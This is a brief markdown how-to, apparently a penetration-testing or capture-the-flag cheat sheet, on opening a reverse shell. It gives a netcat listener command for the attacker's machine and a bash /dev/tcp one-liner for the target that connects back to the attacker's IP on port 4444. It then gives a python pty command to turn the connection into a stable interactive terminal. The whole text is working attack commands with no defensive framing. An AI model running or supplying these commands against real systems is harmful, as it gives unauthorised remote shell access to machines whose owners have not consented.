 # To open reverse shell:
on the attack machine run:
```
nc -lvnp 4444
```
this will open a socket listening on port 4444, and then on the target machine run:
```
bash -i >& /dev/tcp/<ip>/4444 0>&1
```
This will connect to the port 4444 on the attack machine ip.
The connection can be unstable, so run the command to start a stable terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
